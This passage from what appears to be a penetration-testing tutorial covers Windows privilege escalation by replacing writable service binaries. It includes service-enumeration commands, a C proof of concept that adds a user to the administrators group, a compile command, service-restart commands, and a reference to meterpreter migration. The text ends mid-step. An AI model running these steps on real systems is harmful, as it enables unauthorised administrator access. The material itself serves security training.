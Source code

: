     sc query state= all | findstr "SERVICE_NAME:" >> Servicenames.txt

    FOR /F %i in (Servicenames.txt) DO echo %i
    type Servicenames.txt

    FOR /F "tokens=2 delims= " %i in (Servicenames.txt) DO @echo %i >> services.txt

    FOR /F %i in (services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> path.txt

Now you can process them one by one with the cacls command.

    cacls "C:\path\to\file.exe"

### Look for Weakness

What we are interested in is binaries that have been installed by the user. In the output you want to look for BUILTIN\Users:(F). Or where your user/usergroup has (F) or (C) rights.

Example:

    C:\path\to\file.exe 
    BUILTIN\Users:F
    BUILTIN\Power Users:C 
    BUILTIN\Administrators:F 
    NT AUTHORITY\SYSTEM:F

That means your user has write access. So you can just rename the .exe file and then add your own malicious binary. And then restart the program and your binary will be executed instead. This can be a simple getsuid program or a reverse shell that you create with msfvenom.

Here is a POC code for getsuid.

    #include <stdlib.h>
    int main ()
    {
    int i;
        i = system("net localgroup administrators theusername /add");
    return 0;
    }

We then compile it with mingw like this:

    i686-w64-mingw32-gcc windows-exp.c -lws2_32 -o exp.exe

### Restart the Service

Okay, so now that we have a malicious binary in place we need to restart the service so that it gets executed. We can do this by using wmic or net the following way:

    wmic service NAMEOFSERVICE call startservice
    net stop [service name] && net start [service name].
    restart-service [service name]

The binary should now be executed in the SYSTEM or Administrator context.

### Migrate the meterpreter shell

If your meterpreter session dies right after you get it you need migrate it to a more stable service. A common service to migrate to is winlogon.exe since it is run by system and it is always run. You can find the PID like this:
